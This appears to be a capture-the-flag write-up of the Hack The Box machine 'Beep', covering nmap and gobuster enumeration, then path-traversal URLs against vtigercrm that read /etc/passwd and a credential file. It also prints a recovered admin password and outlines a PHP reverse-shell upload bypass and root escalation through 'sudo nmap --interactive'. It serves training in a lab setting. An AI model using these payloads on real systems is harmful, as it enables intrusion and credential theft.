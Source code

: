 ```yaml
---
title: Beep
author: fieldraccoon
date: 2020-06-24 
categories: [hack-the-box, linux]
tags: [hack-the-box, easy, metasploit, burp, lfi,]
math: true
---
```


# BEEP

Beep was an easy linux box that requried an interesting LFI exploit to read the user flag which lead to another lfi to read a file containing creds. There was multiple methodds for root including a simple ssh as root or spawning a reverse shell on the system and privelage escalating to root via sudo -l and exploiting nmap
> Nmap

```shell
root@kali:~/boxes/beep/# nmap -sS -A 10.10.10.7

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
Nmap scan report for 10.10.10.7
Host is up (0.16s latency).
Not shown: 988 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 742/udp status
|_ 100024 1 745/tcp status
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
443/tcp open ssl/http Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after: 2018-04-07T08:22:08
|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4445/tcp open upnotifyp?
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1). No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint:
OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)
```
Our nmap scan shows alot of information but we narrow down and try to take away the important details.

On port `80` the service `elastix` is running. It is just simply a login page for what should be htb elastix service which we will need to exploit later.

We run a gobuster scan in dir mode to check for hidden directories to help our enumeration.

```shell
root@kali:~/Desktop# gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Gobuster v1.2 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : https://10.10.10.7/
[+] Threads : 500
[+] Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded : true
=====================================================
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
```

We take a look at the `/vtingercrm` we can see that its running the `vtingercrm` service.

We search for epxloits and comme accross one on exploit-db that shows that it is an LFI and we can read the user flag an any other file with permissions for read access from the user.

> Links [https://www.exploit-db.com/exploits/18770](https://www.exploit-db.com/exploits/18770)

We use this and carry out a few commands like this:

```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

With this we can read the` /etc/passwd` file and it shows a user called `fanis` from here we can change the file name to try and raed the user flag.
```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.ph
p?module_name=../../../../../../../../home/fanis/user.txt%00

And we get user on the box!

# ROOT
Now using the second LIF that we found on exploit db [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)
```shell
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We do this and we read the creds for the administrator for the vtigercrm service 

```Username = admin
Password = jEhdIekWmdjE
```
From here we can simply ssh as root into the box and read the root flag. This is the first method.

I wont cover the rest fully i was do a quick brief.

For root 1 method you can login into vtiger with the creds and navigating around the website you will find an upload section where you can upload a jpg file. We can upload a php reverse shell aslong as we name it shell.php.jpg and we can change the contents in burpsuite to change the needs required, from here we set up a listener and we get a shell.

Note meastploit can also be used with a payload and a listener

For the priv esc we run `sudo -l` shows us that we can run nmap as root. We simply run `sudo nmap --interactive` to spawn a shell with interactive mode on nmap.

Thanks for reading hpoe you enjoyed.
